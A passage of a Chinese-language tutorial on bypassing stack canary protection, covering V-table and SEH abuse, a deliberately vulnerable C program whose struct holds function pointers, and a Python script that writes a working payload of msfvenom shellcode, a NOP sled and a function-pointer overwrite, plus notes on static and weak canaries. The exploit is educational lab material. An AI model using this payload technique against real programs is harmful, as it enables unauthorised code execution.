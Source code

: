 1. V-Table：这真是个魔法。它是一个表，用于保存特定对象的方法指针，用于支持 C++ 语言中的多态性，这样每个对象都能准确地知道其对应的方法，而不会与其父级的方法发生冲突。如果我们能够控制该表，我们就可以利用其中的任何方法执行我们自己的代码，而不会被金丝雀保护机制检测到。  
  
1. Windows SEH：SEH 代表结构化异常处理，这是微软为 C/C++ 语言开发的一项功能，用于处理特定的异常代码情况（例如硬件故障）。这些处理程序主要位于堆栈中。如果我们能够从这些处理程序触发异常，我们就可以利用它们来获取代码执行（在金丝雀验证之前）。  
  
```
#include<stdio.h>#include<stdlib.h>#include<string.h>#include<stdbool.h>typedefstruct _Buffer {    char data[64];    int nSize;    void (*write)(struct _Buffer *, char *, size_t);    void (*read)(struct _Buffer *);} Buffer;voidbuf_write(Buffer *pBuf, char *cpData, size_t n){    memcpy( pBuf->data, cpData, n );    pBuf->nSize += (int) n;}voidbuf_read(Buffer *pBuf){    puts( "Your Data :" );    printf( "%s", pBuf->data );};Buffer buf_new(bool bShouldRead){    return (Buffer) {        .data = { 0 },        .nSize = 0,        .write = buf_write,        .read = ( bShouldRead ) ? buf_read : NULL    };}voidmain(int argc, char **argv){    Buffer buf = buf_new( (bool)(argc > 1 && strcmp(argv[1], "-r") == 0) );    char *cpLine = NULL;    size_t n = 0;    printf( "Data: " );    n = getdelim( (char **)&cpLine, &n, 0x0a, stdin );    if ( ~n ) // Sanity check to avoid calling `buf_write` if `getdelim` failed        buf.write( &buf, cpLine, n );    if ( buf.read )        buf.read( &buf );}
```  
  
  
这个例子与前一个例子非常相似，不同之处在于这个 Buffer 结构具有额外的成员，这些成员保存指向其关联函数的指针，并且在 buf_new 函数初始化期间，这些函数的地址被分配给结构实例。  
  
```
┌──(user㉿host)-[~]└─$ gcc -fstack-protector -zexecstack test.c -o test                                                                                                                                                         ┌──(user㉿host)-[~]└─$ ./test -rData: Hello World!Your Data :Hello World!
```  
  
  
请注意，read 函数指针在我们的控制之下，我们可以使用 -r 选项触发它。此函数将在金丝雀检查之前调用，使我们能够抢占保护，劫持程序执行流并执行我们自己的代码。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taeYk9pbibPZ7GcMFkubQZibXr64KNzCMUMb4TxWSsRmicmENTzQDCarurFjXjn4qbfFn5APoDicXNfSjg/640?wx_fmt=png&from=appmsg "")  
  
正如我们之前所说，我们控制的函数指针在 Canary 之前被调用。我们可以利用它，让它调用我们的 Shellcode。  
  
```
#!/usr/bin/python3import struct# msfvenom -a x64 --platform linux -p linux/x64/exec -b "\x0a" -f py AppendExit=true PrependSetuid=true PrependSetgid=true CMD=idbuf = b""buf += b"\x48\x31\xff\x6a\x69\x58\x0f\x05\x48\x31\xff\x6a"buf += b"\x6a\x58\x0f\x05\x48\xb8\x2f\x62\x69\x6e\x2f\x73"buf += b"\x68\x00\x99\x50\x54\x5f\x52\x66\x68\x2d\x63\x54"buf += b"\x5e\x52\xe8\x03\x00\x00\x00\x69\x64\x00\x56\x57"buf += b"\x54\x5e\x6a\x3b\x58\x0f\x05\x48\x31\xff\x6a\x3c"buf += b"\x58\x0f\x05"with open("payload", "wb") as f:    f.write( b"A" * 80 ) # Fills the Buffer     f.write( struct.pack("<Q", 0x7fffffffdd70 + 0x40) ) # Function Pointer    f.write( b"\x90" * 0x80 ) # NOPs for padding    f.write( buf ) # Shellcode
```  
  
  
好了，一切准备就绪，开始拍摄吧。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taeYk9pbibPZ7GcMFkubQZibXrJadKuXJqCm3bAqxlzPTYdvk4ucesjiaUKNaLJgXoiczc5KVDRgoDYuQw/640?wx_fmt=png&from=appmsg "")  
  
其他策略  
  
并非所有操作系统和编译器都生来平等，并非所有金丝雀保护措施的实现都相同。有时，它们可能存在薄弱之处，且实现不当，导致漏洞被绕过。以下是一些金丝雀保护措施的缺陷以及如何利用它们来绕过：  
- 静态金丝雀/Cookie：有时，秘密金丝雀的值是固定的，不会随着程序的每次运行而改变。在这种情况下，可以将该值放置在其位置。当在函数末尾验证该值时，条件将得到满足，保护将被打破。  
  
- 弱 Canary/Cookie：有时，秘密 Canary 的值会发生变化，但并非完全变化。每次程序运行时，只有一小部分会发生变化。在这种情况下，我们可以猜测 Canary 的值，然后强制程序运行几次，直到找到正确的值。  
  